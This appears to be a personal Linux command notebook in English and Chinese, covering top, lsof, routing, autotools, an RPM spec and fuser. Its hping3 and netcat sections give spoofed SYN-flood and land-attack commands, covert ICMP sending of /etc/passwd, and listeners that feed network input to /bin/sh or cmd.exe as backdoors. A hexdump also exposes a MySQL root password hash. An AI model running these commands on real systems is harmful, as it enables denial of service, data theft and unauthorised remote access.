Following is the default header information provided by top.

top - 23:47:32 up 179 days,  3:36,  1 user,  load average: 0.01, 0.03, 0.00
Tasks:  67 total,   1 running,  66 sleeping,   0 stopped,   0 zombie
Cpu(s):   0.7% user,   1.2% system,   0.0% nice,  98.0% idle
Mem:   1017136k total,   954652k used,    62484k free,   138280k buffers
Swap:  3068404k total,    22352k used,  3046052k free,   586576k cached

    Press l – to hide / show the load average. 1st header line.
    Press t – to hide / show the CPU states. 2nd and 3rd header line.
    Press m – to hide / show the memory information. 4th and 5th line.

** Save Top Configuration Settings – Press W

If you’ve made any interactive top command configurations suggested in the above examples, you might want to save those for all future top command output. Once you’ve saved the top configuration, next time when you invoke the top command all your saved top configuration options will be used automatically.

To save the top configuration, press W, which will write the configuration files to ~/.toprc. This will display the write confirmation message as shown below.

top - 23:47:32 up 179 days,  3:36,  1 user,  load average: 0.01, 0.03, 0.00
Tasks:  67 total,   1 running,  66 sleeping,   0 stopped,   0 zombie
Cpu(s):   0.7% user,   1.2% system,   0.0% nice,  98.0% idle
Mem:   1017136k total,   954652k used,    62484k free,   138280k buffers
Swap:  3068404k total,    22352k used,  3046052k free,   586576k cached
Wrote configuration to '/home/ramesh/.toprc'

* lsof
14. Lsof

Lsof stands for ls open files, which will list all the open files in the system. The open files include network connection, devices and directories. The output of the lsof command will have the following columns:

    COMMAND process name.
    PID process ID
    USER Username
    FD file descriptor
    TYPE node type of the file
    DEVICE device number
    SIZE file size
    NODE node number

    NAME full path of the file name.

To view all open files of the system, execute the lsof command without any parameter as shown below.

# lsof | more
COMMAND     PID       USER   FD      TYPE     DEVICE      SIZE       NODE NAME
init          1       root  cwd       DIR        8,1      4096          2 /
init          1       root  rtd       DIR        8,1      4096          2 /
init          1       root  txt       REG        8,1     32684     983101 /sbin/init
init          1       root  mem       REG        8,1    106397     166798 /lib/ld-2.3.4.so
init          1       root  mem       REG        8,1   1454802     166799 /lib/tls/libc-2.3.4.so
init          1       root  mem       REG        8,1     53736     163964 /lib/libsepol.so.1
init          1       root  mem       REG        8,1     56328     166811 /lib/libselinux.so.1
init          1       root   10u     FIFO       0,13                  972 /dev/initctl
migration     2       root  cwd       DIR        8,1      4096          2 /
skipped..

To view open files by a specific user, use lsof -u option to display all the files opened by a specific user.

# lsof -u ramesh
vi      7190 ramesh  txt    REG        8,1   474608   475196 /bin/vi
sshd    7163 ramesh    3u  IPv6   15088263               TCP dev-db:ssh->abc-12-12-12-12.

To list users of a particular file, use lsof as shown below. 
In this example, it displays all users who are currently using vi.

# lsof /bin/vi
COMMAND  PID  USER    FD   TYPE DEVICE   SIZE   NODE NAME
vi      7258  root   txt    REG    8,1 474608 475196 /bin/vi
vi      7300  ramesh txt    REG    8,1 474608 475196 /bin/vi

* hping3
Hping3介绍

　　Hping是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是Hping3，支持使用tcl脚本自动化地调用其API。Hping是安全审计、防火墙测试等工作的标配工具。

　　Hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

　　而Nmap团队也开发了一款类似的工具Nping，集成在Nmap的安装包中。
3.2  Hping3功能

　　Hping3主要有以下典型功能应用：
3.2.1  防火墙测试

　　使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

　　测试防火墙对ICMP包的反应、是否支持Traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。

　　例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10

 
3.2.2  端口扫描

　　Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。

　　以下示例可用于探测目标机的80端口是否开放：

hping3 -I eth0  -S 192.168.10.1 -p 80

　　其中-Ieth0指定使用eth0端口，-S指定TCP包的标志位SYN，-p 80指定探测的目的端口。

　　hping3支持非常丰富的端口探测方式，Nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。

　　当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

 
3.2.3  Idle扫描

　　Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

　　该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。


 
3.2.4  拒绝服务攻击

　　使用Hping3可以很方便构建拒绝服务攻击。

　　比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

hping3 -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u1000

　　其他攻击如smurf、teardrop、land attack等也很容易构建出来。

 
3.2.5  文件传输

　　Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。

　　实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。

　　在接收端开启服务：

hping3 192.168.1.159--listen signature --safe  --icmp

　　监听ICMP包中的签名，根据签名解析出文件内容。

　　在发送端使用签名打包的ICMP包发送文件：

hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd

　　将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

 
3.2.6  木马功能

　　如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与Netcat的后门功能类似。

　　示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

　　在木马启动端：

hping3 192.168.10.66--listen signature --safe --udp -p 53 |/bin/sh

　　在远程控制端：

echo ls >test.cmd

hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd

　　将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

　　当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。

* netcat
2     Netcat

核心应用：完成网络中各种辅助操作，被称作TCPIP的瑞士军刀


2.1  Netcat简介

　　Netcat用于从TCP/UDP连接中读取或发送网络数据。cat是Linux中查看或连接文件的命令，所以netcat本意为从网络上查看文件内容。而Netcat的作者Hobbit为它添加了非常丰富的功能，使它几乎能够完成网络操作中各式各样的操作，所以Netcat在网络安全领域被称作“TCPIP的瑞士军刀”（"Swiss-army knife forTCP/IP"）。

　　Netcat稳定版1.10由Hobbit在1996年3月发布（开源软件），之后作者没有再对其进行维护，但该工具十多年来依然在被广泛地使用，而且基于Netcat的各种衍生工具也层出不穷，他们在很多方面增强或扩展了Netcat的功能。

　　Nmap团队开发了Ncat作为Netcat的升级版本，增加了更多的功能，让其更能适应现代网络环境的需求。
2.2  Netcat功能
2.2.1  网络连接

　　类似于Telnet的功能，使用Netcat能够简便地登录到目标机上开放的端口。

　　例如，

nc mail.server.net 25

　　向mail.server.net的25号TCP端口发起连接。

 
2.2.2  端口扫描

　　Netcat同样可以进行端口扫描，但与Nmap相比，它的性能及使用范围都很有限。如果只想简单地探测几个端口的开放状态，使用Netcat也可行。

　　端口扫描格式如下：

nc –v –z hostnameport[s]

　　实例：

nc –v –z www.yahoo.com 80 22

　　扫描yahoo网站的80、22端口，判断其是否开放。

 
2.2.3  文件传输

　　Netcat最初的用途就是文件传输，它可以像Cat命令一样将读取的文件重定向到网络上的另外的文件。Netcat在网络应用中既可以当做服务器端，开启本机一个监听端口，也可以作为客户端向其他服务器端口发起连接。所以，文件传输，即是在两端分别运行Netcat。

　　在接受端，运行Netcat开启端口监听服务。

nc –L –p 4444 >receivedfile.zip 

　　此处-L启动监听模式（即作为服务器端），开启4444端口，将接受到的数据写入到文件somefile.zip中。

　　而在发送端，只需连接该服务器端开放的端口，并选择需要发送的文件。

nc 192.168.1.43 4444< testfile.zip

　　使用<符号输入testfile.zip文件，并向目标机的4444端口发起连接。在建立连接成功后，发送端会将文件传送到接收端，接受端将收到的数据写入receivedfile.zip文件。整个过程，比较类似于cat命令，因为具体的网络传输过程由Netcat负责。

 
2.2.4  开启后门

　　Netcat甚至也可以用作后门程序。如果用户已经侵入到一台计算机，那么让该计算机在开机后（或其他条件下）自动启动Netcat，打开指定的端口，等待用户连接，在连接成功后执行特定程序（如cmd.exe，以便远程执行命令）。

nc –L –p 4444 –e cmd.exe

　　以监听模式启动Netcat，开启TCP端口4444，在与客户端成功建立连接后，执行cmd.exe程序（-e cmd.exe，此处为用户打开命令行执行窗口，用户可以通过命令操作此计算机）。

　　在客户端，直接连接目标机的4444端口即可。

nc 192.168.1.43 4444

　　连接后，客户端可以接收到一个命令行窗口。

 
2.2.5  端口转发

　　端口转发（PortForwarding）也是Netcat比较实用的用法。先将Netcat作为服务器接收其他主机的连接，然后将连接的数据转发另外的目标机端口。

　　比如：

mkfifo backpipe

nc -l 12345  0<backpipe | nc www.google.com 801>backpipe

　　比如，此处开启端口12345，作为www.google.com的代理。其他无法直接登陆google的用户可以通过此代理端口来与google进行交互。这里创建了一个fifo，是为实现双向数据通讯，因为管道运算符本身是单向的。

 
2.2.6  标语提取

　　标语提取（BannerGrabbing）的含义是抓取应用程序在建立连接后打印的标语提示信息，例如建立FTP连接后，FTP服务器可能打印出提示信息：FTP xxx.xxx等数据。

　　所以，根据服务器打印的信息，有时可以推断出对方服务程序的详细版本。这也是Nmap进行服务与版本侦测采用方法。

　　例如，首先创建一份文件，包含以下文本：
[plain] view plain
copy

HEAD / HTTP/1.0  
<return>  
<return>  

　　然后，将此文件发送到目标服务器的80端口，诱发对方发送HTTP首部数据。

cat file>nc -vv -w 2 www.cnn.com 80 >output.txt

　　然后可从output.txt查看到对方的发送的HEAD的标语信息。

 

 
2.2.7  其他功能

　　Netcat其他常用的功能：
支持完全的DNS转发、逆向检查
支持用户指定源端口
支持用户指定源端IP地址
内置宽松源路由能力（loosesource-routing capability）
慢速发送模式，可指定每隔多少秒发送一行文本
将发送或接收数据以16进制格式导出
* 查看网卡信息
linux-19:~ # ethtool eth1
Settings for eth1:
        Supported ports: [ TP ]
        Supported link modes:   10baseT/Half 10baseT/Full
                                100baseT/Half 100baseT/Full
                                1000baseT/Full
        Supports auto-negotiation: Yes
        Advertised link modes:  10baseT/Half 10baseT/Full
                                100baseT/Half 100baseT/Full
                                1000baseT/Full
        Advertised pause frame use: No
        Advertised auto-negotiation: Yes
        Speed: 1000Mb/s
        Duplex: Full
        Port: Twisted Pair
        PHYAD: 1
        Transceiver: internal
        Auto-negotiation: on
        MDI-X: Unknown
        Supports Wake-on: g
        Wake-on: d
        Link detected: yes
* lspci -vvv
* ipvsadmin
  ipvsadm -ln
* curl
  
  -H 指定特定的http header
  curl -H 'Accept-Languange: en-us:q=2.2250738585072012e-308' http://www.hismarttv.com

* 查看路由表
  ip route

* man
  一些命令的没用--help这样的帮助。
  可以使用man查看其选项说明。
  例如df命令
  可以man df，查看其各个选项的使用说明。
* hexdump
  很好的一个选项： -C 输出十六进制和对应字符
#+begin_example
linux-107:/ # hexdump -C /usr/local/fountain/3rdparty/mysql/mysql/user.MYD
00000000  05 00 57 00 27 00 00 00  00 00 00 00 fc fb 03 09  |..W.'...........|
00000010  6c 6f 63 61 6c 68 6f 73  74 04 72 6f 6f 74 2a 44  |localhost.root*D|
00000020  41 45 36 33 44 33 33 34  32 39 44 35 35 41 32 35  |AE63D33429D55A25|
00000030  35 33 46 46 03 00 2f 01  ff 03 09 6c 69 6e 75 78  |53FF../....linux|
00000040  2d 31 30 37 04 72 6f 6f  74 00 02 02 02 02 02 02  |-107.root.......|
00000050  02 02 02 02 02 02 02 02  02 02 02 02 02 02 02 02  |................|
00000060  02 02 02 02 02 02 01 00  03 00 2f 01 ff 03 09 31  |........../....1|
00000070  32 37 2e 30 2e 30 2e 31  04 72 6f 6f 74 00 02 02  |27.0.0.1.root...|
00000080  02 02 02 02 02 02 02 02  02 02 02 02 02 02 02 02  |................|
00000090  02 02 02 02 02 02 02 02  02 02 01 00 03 00 2b 01  |..............+.|
000000a0  ff 03 09 6c 6f 63 61 6c  68 6f 73 74 00 00 01 01  |...localhost....|
#+end_example  
* 子接口
    **添加子接口IP

    #ifconfig eth2:1 192.168.4.23 netmask 255.255.255.0 up

    **去掉子接口IP

    #ifconfig eth2:1 192.168.4.23 netmask 255.255.255.0 down

    **指定原IP ping

    #ping -I 192.168.4.23 -c 192.168.12.100

* linux系统信息
用硬件检测程序kuduz探测新硬件：service kudzu start ( or restart)
 查看CPU信息：cat /proc/cpuinfo
 查看板卡信息：cat /proc/pci
 查看PCI信息：lspci (相比cat /proc/pci更直观）
 查看内存信息：cat /proc/meminfo
 查看USB设备：cat /proc/bus/usb/devices
 查看交换分区信息: cat /proc/swap
 查看内存使用情况： free
 查看键盘和鼠标:cat /proc/bus/input/devices
 查看系统硬盘信息和使用情况：fdisk & disk - l & df
 查看各设备的中断请求(IRQ):cat /proc/interrupts
 查看系统体系结构：uname -a
查看Linux的版本： cat /etc/issue  或 cat /proc/version 
查看CPU信息（型号）： # cat /proc/cpuinfo | grep name | cut -f2 -d: | uniq -c
查看CPU实际上核的数： # cat /proc/cpuinfo | grep physical | uniq -c
当前CPU运行在32bit模式下:# getconf LONG_BIT
结果大于0, 说明支持64bit计算. lm指long mode, 支持lm则是64bit: # cat /proc/cpuinfo | grep flags | grep ' lm ' | wc -l
查看当前操作系统发行版信息：  # cat /etc/issue | grep Linux
查看机器型号： # dmidecode | grep "Product Name" 
查看网卡信息： # dmesg | grep -i eth

查看进程开始时间、结束时间、运行时间：ps -o stime,etime  28486 （SPID)


系统 
# uname -a               # 查看内核/操作系统/CPU信息
# head -n 1 /etc/issue   # 查看操作系统版本
# cat /proc/cpuinfo      # 查看CPU信息
# hostname               # 查看计算机名
# lspci -tv              # 列出所有PCI设备
# lsusb -tv              # 列出所有USB设备
# lsmod                  # 列出加载的内核模块
# env                    # 查看环境变量

资源 
# free -m                # 查看内存使用量和交换区使用量
# df -h                  # 查看各分区使用情况
# du -sh <目录名>        # 查看指定目录的大小
# grep MemTotal /proc/meminfo   # 查看内存总量
# grep MemFree /proc/meminfo    # 查看空闲内存量
# uptime                 # 查看系统运行时间、用户数、负载
# cat /proc/loadavg      # 查看系统负载

磁盘和分区 
# mount | column -t      # 查看挂接的分区状态
# fdisk -l               # 查看所有分区
# swapon -s              # 查看所有交换分区
# hdparm -i /dev/hda     # 查看磁盘参数(仅适用于IDE设备)
# dmesg | grep IDE       # 查看启动时IDE设备检测状况

网络 
# ifconfig               # 查看所有网络接口的属性
# iptables -L            # 查看防火墙设置
# route -n               # 查看路由表
# netstat -lntp          # 查看所有监听端口
# netstat -antp          # 查看所有已经建立的连接
# netstat -s             # 查看网络统计信息

进程 
# ps -ef                 # 查看所有进程
# top                    # 实时显示进程状态

用户 
# w                      # 查看活动用户
# id <用户名>            # 查看指定用户信息
# last                   # 查看用户登录日志
# cut -d: -f1 /etc/passwd   # 查看系统所有用户
# cut -d: -f1 /etc/group    # 查看系统所有组
# crontab -l             # 查看当前用户的计划任务

服务 
# chkconfig --list       # 列出所有系统服务
# chkconfig --list | grep on    # 列出所有启动的系统服务

程序 
# rpm -qa                # 查看所有安装的软件包
* linux 添加静态路由 

linux下静态路由修改命令
 方法一：
 添加路由
 route add -net 192.168.0.0/24 gw 192.168.0.1
 route add -host 192.168.1.1 dev 192.168.0.1
 删除路由
 route del -net 192.168.0.0/24 gw 192.168.0.1

 add 增加路由
 del 删除路由
 -net 设置到某个网段的路由
 -host 设置到某台主机的路由
 gw 出口网关 IP地址
 dev 出口网关 物理设备名

 增 加默认路由

 route add default gw 192.168.0.1
 默认路由一条就够了

 route -n 查看路由表

 方法二：
 添加路由
 ip route add 192.168.0.0/24 via 192.168.0.1
 ip route add 192.168.1.1 dev 192.168.0.1
 删除路由
 ip route del 192.168.0.0/24 via 192.168.0.1

 add 增加路由
 del 删除路由
 via 网关出口 IP地址
 dev 网关出口 物理设备名

 增加默认路由
 ip route add default via 192.168.0.1 dev eth0
 via 192.168.0.1 是我的默认路由器

 查看路由信息
 ip route

保存路由设置，使其在网络重启后任然有效 
在/etc/sysconfig/network-script/目录下创建名为route- eth0的文件 
vi /etc/sysconfig/network-script/route-eth0 
在此文件添加如下格式的内容 

192.168.1.0/24 via 192.168.0.1 

重启网络验证 

 

 

/etc/rc.d/init.d/network中有这么几行：

 # Add non interface-specific static-routes.
 if [ -f /etc/sysconfig/static-routes ]; then
 grep "^any" /etc/sysconfig/static-routes | while read ignore args ; do
 /sbin/route add -$args
 done
 fi 

 也就是说，将静态路由加到/etc/sysconfig/static-routes 文件中就行了。

 

如加入：
 route add -net 11.1.1.0 netmask 255.255.255.0 gw 11.1.1.1

 则static-routes的格式为
 any net 11.1.1.0 netmask 255.255.255.0 gw 11.1.1.1

* 用GCC输出带C源代码注释的汇编列表文件
  gcc -c -g -Wa,-adlhn ee.c >  ee.anno.s
  由此生成的ee.anno.s即是ee.c对应的C与汇编混排的列表
* 自动化编译autotools的使用
具体操作步骤

 准备好源码文件helloworld.c 及 Makefile.am文件。

 执行autoscan生成configure.scan，将configure.scan改为configure.in并修改configure.in

 然后执行：
 aclocal
 autoheader
 touch README NEWS AUTHORS ChangeLog
 autoconf
 automake --add-missing
 ./configure
 make
 ./helloworld ;         ---运行程序
 make dist            ---制作发布的包
 make dist            ---制作发布的包并对其进行测试检查
 make clean        --清除make命令产生的目标文件及可执行文件

automake autoconf 自动化编译说明

利用autotools自动生成makefile文件，自动化编译自己的工程，autotools工具只需要用户输入简单的目标文件、依赖文件、文件目录就可以轻松地生成Makefile了。

首先安装autotools系列工具，包括aclocal、autoscan、automake、autoheader、autoconf等。

可以通过rpm –qa | grep auto来查看各个应用程序，如果没有

yum install automake即可安装。

详细步骤：
1.建立自己的工程，编写源文件并创建Makefile.am

1)最顶层目录名为模块名 helloworld

源文件放在模块下面的src子目录,例如helloworld/src

2) 在src 下面，创建源文件main.c

3) 在helloworld目录下面创建Makefile.am文件--（为Makefile.in的模板文件，.am扩展名是automake的缩写）,内容如下: 

SUBDIRS=src 

4) 在helloworld/src 目录下创建Makefile.am文件 内容如下：

bin_PROGRAMS=helloworld 

helloworld_SOURCES=main.c 

其中，PROGRAMS表示要产生的是可执行文件，有多个可执行文件文件时，可用空格分开，
而bin表示可执行文件的安装目录SOURCES表示生成可执行文件需要的源文件，
有多个源文件时，也用空格分开。比如想生成两个可执行程序helloworld1和helloworld2，那么就需要写成：

bin_PROGRAMS=helloworld1 helloworld2

helloworld1_SOURCES=main1.c 

helloworld2_SOURCES=main2.c 
2.运行 autoscan --创建autoconf的模板

autoscan      --将生成configure.scan和autoscan.log文件，它会在给定目录及其子目录树中检查源文件，
若没有给定目录，就在当前目录及其子目录树中进行检查。它会搜索源文件以寻找一般的移植性问题并且创建一个文件configure.scan，通过这个文件我们可以创建autoconf需要的模版文件。


1).目录下面生成了configure.scan 文件，利用命令

mv configure.scan configure.in  --将生成的configure.scan更改为autoconf需要的文件模版configure.in

configure.in 文件为autoconf 的模板文件，内容如下所示，其中#行为注释行：

 # -*- Autoconf -*- 
 # Process this file with autoconf to produce a configure script. 

AC_PREREQ([2.68]) 
AC_INIT([FULL-PACKAGE-NAME], [VERSION], [BUG-REPORT-ADDRESS]) 
AC_CONFIG_SRCDIR([src/main.c]) 
AC_CONFIG_HEADERS([config.h]) 

 # Checks for programs. 
AC_PROG_CC 
 # Checks for libraries. 
 # Checks for header files. 
 # Checks for typedefs, structures, and compiler characteristics. 
 # Checks for library functions. 
AC_CONFIG_FILES([Makefile 
src/Makefile]) 
AC_OUTPUT 

2). 修改configure.in文件

将
AC_INIT([FULL-PACKAGE-NAME], [VERSION], [BUG-REPORT-ADDRESS]) 
修改为：
AC_INIT(helloworld, 0.1, shaoguangleo@gmail.com)     =--初始化autoconf 
并添加
AM_INIT_AUTOMAKE(helloworld, 0.1)     =--初始化automake 必须的宏，这个如果不添加就会导致在autoconf时出错，
信息大概为configure.in:no proper invocation of AM_INIT_AUTOMAKE was found

3.运行 aclocal -- 复制所有的宏命令
aclocal 
备注：configure.in 里面包含了一系列的宏命令，运行aclocal的目的是把工程需要的宏命令展开。
（aclocal.m4 就是configure.in中用到的宏定义）会生成autom4te.cache文件夹和aclocal.m4文件。

4.运行autoheader --生成配置头文件的模板config.h.in并创建4个必要的文件
autoheader 
备注：此时再创建4个必要的文件
touch README NEWS AUTHORS ChangeLog 

README :描述模块的功能，用法和注意事项 
NEWS : 描述模块最新的动态 
AUTHORS : 模块的作者及联系方式 
ChangeLog : 记录模块的修改历史

上述几个文件可以暂时为空。
5. automake --add-missing   -- 生成Makefiel.in和所需要的脚本

automake --add-missing   --其中add-missing选项会让automake自动添加一些必须的脚本文件。

6. autoconf -- 生成configure脚本

autoconf     
--生成configure脚本

7. ./configure -- 生成最终的Makefile文件

./configure 

configure 通常有两个参数
1) --prefix 用来制定安装目录 linux默认/usr/local
2) --host 用于交叉编译

8 make =-- 编译
make 

9.make install

* nohup 
　nohup命令：如果你正在运行一个进程，而且你觉得在退出帐户时
  该进程不应结束，那么可以使用nohup命令。该命令可以在你退出帐户/关闭终端之后继续运行相应的进程。nohup就是不挂起的意思( no hang up)。
  该命令的一般形式为：nohup command &

* 文件重命名
   开始使用rename命令，很憋气，rename oldname newname 就是不管用。
   其实rename更适合来批量修改文件名
   如把当前目录下的以.htm为扩展名的文件改为.html
   rename .htm .html *
   如果修改单个文件名可以用mv命令
   mv oldname newname
   
* ^X mode 
  使用vi时，保存文件使用emacs的方式 C-x C-s
  进入vim 进入^X mode。
  这时使用C-q返回正常状态。
* rpm包制作
使用脚本将需要安装的文件压缩，打包
tar czvf /usr/src/packages/SOURCES/nagios-hids.tar.gz nagios/daemon-init nagios/base/nagios nagios/base/nagiostats nagios/sample-config/*.cfg
然后执行
rpmbuild -ba nagios-hids.spec
就会生成对应的RPM包：/usr/src/packages/RPMS/x86_64/nagids-3.5.0-1.x86_64.rpm

nagios-hids.spec：
#+begin_example
*定义变量*
%define name nagids
%define version 3.5.0
%define release 1
%define nsusr nagios
%define nsgrp nagios
%define cmdgrp nagiocmd
%define wwwusr apache
%define wwwgrp apache
%define _prefix /usr/local/fountain/nagios
%define _logdir %{_prefix}/var
%define _checkresultdir %{_prefix}/var/spool/checkresults
%define _cfgdir %{_prefix}/etc
%define _bindir %{_prefix}/bin
%define _cgidir %{_prefix}/sbin
%define _libexecdir %{_prefix}/libexec
%define _plugindir %{_prefix}/plugin
%define INSTALL_OPTS -o nagios -g nagios

Summary: Host-based Intrusion Detection System (powered by nagios)
Name: nagids
Version:%{version}
Release:%{release}
Source: nagios-hids.tar.gz
License: GPL
Requires: zlib >= 1.2.3
Packager: Nobody
Group: Application
AutoReq: no
URL: http://hitv.hisense.com
*安装或者编译时使用的虚拟目录*
Buildroot:/usr/src/packages/BUILDROOT/%{name}-%{version}-%{release}.%{_arch}
Vendor: HISENSE MEDIA NETWORKS Co.,LTD
Distribution: SUSE Linux Enterprise 11 SP1 & SP2

%description 
Host-based Intrusion Detection System (powered by nagios)
*预处理脚本*
%prep
*解压源码*
%setup -c

%build

*把软件安装到虚拟的根目录中*
%install
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_libexecdir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_logdir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_plugindir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_logdir}/archives
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_checkresultdir}

install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_bindir}

cd nagios
install -c -m 774 base/nagios ${RPM_BUILD_ROOT}/%{_bindir}
install -c -m 774 base/nagiostats ${RPM_BUILD_ROOT}/%{_bindir}

install -c -m 755 -d -o root -g root ${RPM_BUILD_ROOT}/etc/rc.d
install -c -m 755 -o root -g root daemon-init ${RPM_BUILD_ROOT}/etc/rc.d/nagios

install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_cgidir}

for file in `ls cgi/*.cgi`; do \
    install -c -m 775  $file ${RPM_BUILD_ROOT}/%{_cgidir}; \
done
install -c -m 775 $(COMMAND_OPTS) -d ${RPM_BUILD_ROOT}/%{_logdir}/rw
chmod g+s ${RPM_BUILD_ROOT}/%{_logdir}/rw

install -c -m 775  -d ${RPM_BUILD_ROOT}/%{_cfgdir}
install -c -m 775  -d ${RPM_BUILD_ROOT}/%{_cfgdir}/objects
install -c -b -m 664 sample-config/nagios.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/nagios.cfg
install -c -b -m 664 sample-config/cgi.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/cgi.cfg
install -c -b -m 660 sample-config/resource.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/resource.cfg
install -c -b -m 664 sample-config/template-object/templates.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/templates.cfg
install -c -b -m 664 sample-config/template-object/commands.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/commands.cfg
install -c -b -m 664 sample-config/template-object/contacts.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/contacts.cfg
install -c -b -m 664 sample-config/template-object/services.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/services.cfg
cd ..
*清理临时文件*
%clean
rm -rf ${RPM_BUILD_ROOT}
rm -rf ${RPM_BUILD_DIR}/*
*定义哪些文件或者目录会放入rpm中*
%files
/etc/rc.d/nagios
%dir %{_bindir}
%{_bindir}/*
%dir %{_cfgdir}
%{_cfgdir}/*
%dir %{_cgidir}
%{_cgidir}/*
%dir %{_logdir}
%dir %{_logdir}/archives
%dir %{_logdir}/rw
%dir %{_checkresultdir}
%dir %{_libexecdir}
%dir %{_plugindir}
*rpm安装前执行动作*
%pre 
/usr/bin/getent group %{nsgrp} >/dev/null || /usr/sbin/groupadd %{nsgrp} 2>&1
/usr/bin/getent group %{cmdgrp} >/dev/null || /usr/sbin/groupadd %{cmdgrp} 2>&1
/usr/bin/id %{nsusr} >/dev/null 2>&1 || \
    /usr/sbin/useradd -r -d %{_prefix} -s /bin/sh -c "%{nsusr}" %{nsusr} -G %{nsgrp},%{cmdgrp} || \
    %nnmmsg Unexpected error adding user "%{nsusr}". Aborting install process.

*rpm安装后执行的脚本*
%post
chown -R nagios:nagios %{_prefix}
/sbin/chkconfig --add nagios
/sbin/service nagios start > /dev/null 2>&1
*rpm卸载前执行的脚本*
%preun
*$1代表动作 0:卸载 1:安装 2:升级*
if [ $1 = 0 ]; then
    :
    /sbin/service nagios stop > /dev/null 2>&1
    /sbin/chkconfig --del nagios
fi
*rpm卸载后执行的脚本*
%postun

if [ $1 = 0 ]; then
    echo "postun...">> /tmp/yxf.txt
    /bin/grep '^%{nsusr}:' /etc/passwd > /dev/null 2>&1 && /usr/sbin/userdel %{nsusr} || %nnmmsg "User %{nsusr} could not be deleted."
    /bin/grep '^%{nsgrp}:' /etc/group > /dev/null 2>&1 && /usr/sbin/groupdel %{nsgrp} || %nnmmsg "Group %{nsgrp} could not be deleted."
    /bin/grep '^%{cmdgrp}:' /etc/group > /dev/null 2>&1 && /usr/sbin/groupdel %{cmdgrp} || %nnmmsg "Group %{cmdgrp} could not be deleted."
    rm -rf %{_prefix}
fi
%changelog
...
#+end_example

* fuser
** 查询文件和目录使用者
fuser最基本的用法是查询某个文件或目录被哪个进程使用：
#+begin_example
 # fuser /root
 /root:               17923c 24869c
#+end_example
以上命令查询了/root目录被哪些进程使用，输出包含进程的PID以及字符’c’。字符’c’指示了进程的工作目录，使用以下命令可进行验证：
#+begin_example
 # ls -l /proc/17923/cwd
 lrwxrwxrwx 1 root root 0 Apr 19 09:02 /proc/17923/cwd -> /root
#+end_example 

PID后跟的字符说明了进程以何种方式与该目录/文件关联，有以下关联方式：
　　c  指示进程的工作目录
　　e  指示该文件为进程的可执行文件(即进程由该文件拉起)
　　f  指示该文件被进程打开，默认情况下f字符不显示
　　F  指示该文件被进程打开进行写入，默认情况下F字符不显示
　　r  指示该目录为进程的根目录
　　m  指示进程使用该文件进行内存映射，抑或该文件为共享库文件，被进程映射进内存

使用-v选项将显示更全的信息：
#+begin_example
 # fuser -v /root
             USER     PID    ACCESS   COMMAND
 /root:      root    17923    ..c..      bash
             root    24869    ..c..      atop
#+end_example

下面我们使用一个端口监听的例子，来看可执行文件、socket端口使用进程的信息查询。
#+begin_example
 # ./socket &
#+end_example
以上socket程序是一个使用C编写的小程序，起一个TCP服务端，监听9999端口，代码请查附件。

执行完该程序时候，我们使用fuser进行查询：
#+begin_example
# fuser -v socket
             USER    PID   ACCESS   COMMAND
socket:    root    11861    ...e.   socket
#+end_example
可以看到PID为11861与socket文件的关联方式为'e'，与上表所列相符。
 
** 查询socket使用者
除了查询文件、目录的相关使用进程，我们还可以对socket端口的使用者进行查询。还是使用上面socket程序，我们对端口9999进行如下查询：
#+begin_example
 # fuser -v -n tcp 9999
               USER     PID    ACCESS   COMMAND
 9999/tcp:     root     11861   F....    socket
#+end_example
